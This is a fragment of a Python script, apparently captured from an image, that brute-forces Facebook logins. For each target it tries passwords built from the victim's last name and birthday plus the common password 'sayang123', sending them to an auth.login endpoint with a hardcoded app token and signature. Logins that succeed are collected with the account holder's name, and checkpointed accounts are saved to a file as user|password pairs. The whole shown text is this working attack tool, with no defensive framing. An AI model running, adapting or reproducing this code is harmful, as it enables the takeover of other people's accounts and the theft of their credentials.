 					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
						z = json.loads(x.text)
						print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass2+" =>"+z['name'])
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							cek = open("out/super_cp.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							#Pass3
							pass3 = b['last_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
								z = json.loads(x.text)
								print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass3+" =>"+z['name'])
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									cek = open("out/super_cp.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									#Pass4
									lahir = b['birthday']
									pass4 = lahir.replace('/', '')
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
										z = json.loads(x.text)
										print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass4+" =>"+z['name'])
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											cek = open("out/super_cp.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											#Pass5
											pass5 = "sayang123"
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
												z = json.loads(x.text)
												print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass5+" =>"+z['name'])
												oks.append(user+pass5)